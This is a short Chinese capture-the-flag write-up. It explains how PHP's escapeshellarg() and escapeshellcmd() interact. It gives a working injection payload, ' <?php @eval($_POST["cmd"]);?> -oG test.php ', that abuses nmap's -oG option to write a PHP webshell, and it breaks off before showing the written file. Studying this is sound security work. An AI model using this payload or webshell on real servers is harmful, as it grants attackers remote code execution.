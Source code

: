 X_FORWARDED_FOR和REMOTE_ADDR是服务器获取ip的

这里和这个没关系，主要是host参数

> escapeshellarg()函数
>
> 把字符串转码成可以在shell命令里使用的参数，将单引号进行转义，转义之后，再在左右加单引号；

> escapeshellcmd()函数
>
> 对字符串中可能会欺骗 shell 命令执行任意命令的字符进行转义,将
>
> ```
> & # ; ` | * ? ~ < > ^ ( ) [ ]{ } $ \ 、 \x0A和\xFF
> ```
>
> 以及不配对`的单/双引号转义；
>
> ```
> 反斜线（\）会在以下字符之前插入：`&#;`|*?~<>^()[]{}$\`、\x0A 和 \xFF。 ' 和 "仅在不配对儿的时候被转义。在 Windows 平台上，所有这些字符以及 % 和 ! 字符前面都有一个插入符号（^）。 
> ```

```php
<?php
    highlight_file(__FILE__);
	$host = $_GET['host'];
    echo $host."<br>";
    $host = escapeshellarg($host);
    echo $host."<br>";
    $host = escapeshellcmd($host);
    echo $host."<br>";
?>
```

```
传入
' <?php @eval($_POST["cmd"]);?> -oG test.php '
利用nmap的命令来做一些事
有一个参数-oG可以将命令和结果写到同一个文件上
```

结果

```
' <?php @eval($_POST["cmd"]);?> -oG test.php '
''\'' <?php @eval($_POST["cmd"]);?> -oG test.php '\'''
''\\'' \<\?php @eval\(\$_POST\["cmd"\]\)\;\?\> -oG test.php '\\'''
```

单引号全部闭合，上面的语句就是

```
\ <?php @eval($_POST["cmd"]);?> -oG test.php \\
```

写进去的test.php内容就是
